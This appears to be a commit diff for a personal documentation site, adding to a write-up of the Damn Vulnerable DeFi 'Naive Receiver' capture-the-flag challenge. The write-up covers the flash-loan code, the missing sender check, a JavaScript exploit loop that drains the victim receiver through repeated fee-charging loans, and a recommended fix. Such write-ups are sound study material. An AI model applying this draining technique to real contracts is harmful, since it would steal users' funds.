

Before and after one commit to BingleBangle-BH/BCJouney, an MkDocs documentation site: the page built from docs/Damn Vulnerable DeFi/Naive-Receiver.md, in a window 1280 px wide and 1400 px high, scrolled down 1144 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1600 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
truster, naive-receiver

````diff
--- a/docs/Damn Vulnerable DeFi/Naive-Receiver.md
+++ b/docs/Damn Vulnerable DeFi/Naive-Receiver.md
@@ -1,13 +1,11 @@
 # Naive-Receiver
 
 ## Introduction
-
 The goal is to drain the user tokens.
 In this section, flash loan from ***NaiveReceiverLenderPool.sol*** impose a fixed interest rate of 1 ether (Holy jesus)
 Therefore, 1 token will be extracted from the user for every flash loan.
 
-## Code breakdown
-
+## Code Breakdown
 Let's start by breaking down the source code into functions.
 There are two files - ***FlashLoanReceiver.sol*** and ***NaiveReceiverLenderPool.sol***.
 Similiar to the previous challenge, ***NaiveReceiverLenderPool.sol*** will execute function from ***FlashLoanReceiver.sol*** during a flashloan.
@@ -54,7 +52,7 @@ Next, borrower must be a deployed contract rather than a user.
 ```require(borrower.isContract(), "Borrower must be a deployed contract");```
 
 Next, it will execute ***receiverEther(uint256)*** function from ***FlashLoanReceiver.sol***.
-```
+```sol
 // Transfer ETH and handle control to receiver
 borrower.functionCallWithValue(
     abi.encodeWithSignature(
@@ -64,3 +62,40 @@ borrower.functionCallWithValue(
     borrowAmount
 );
 ```
+
+After executing the function from ***FlashLoanReceiver.sol***, it will check if the borrowed amount is payed along with the fixed fee.
+```sol
+require(
+    address(this).balance >= balanceBefore + FIXED_FEE,
+    "Flash loan hasn't been paid back"
+);
+```
+
+## Hint
+This function does not check if the ***msg.sender*** is indeed the borrower.
+```sol
+function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant
+```
+Thus, an attacker can insert any valid address and initiate a flash loan causing the victim to pay the fixed fee.
+
+## Solution
+The solution is to siphon tokens away from a legitimate user by putting in their address for a flash loan.
+By doing so, the smart contract will charge the legitimate user a fixed fee of 1 ETH per flash loan till they run out.
+This is the easy solution.
+```js
+it('Exploit', async function () {
+    /** CODE YOUR EXPLOIT HERE */
+    while (true){
+        await this.pool.flashLoan(this.receiver.address, 0);
+        value = String(await ethers.provider.getBalance(this.receiver.address));
+        console.log(value);
+        if (value == "0"){
+            break;
+        }
+    }
+});
+```
+
+## Recommendations
+Always check if the sender is the borrower. A simple require statement can be implemented at the start of the flash loan
+```require(msg.sender == borrower);```
````
Also changed, not shown: docs/Damn Vulnerable DeFi/Truster.md (added, +134 -0 lines), docs/Damn Vulnerable DeFi/Unstoppable.md (+9 -7 lines), docs/index.md (+3 -3 lines).
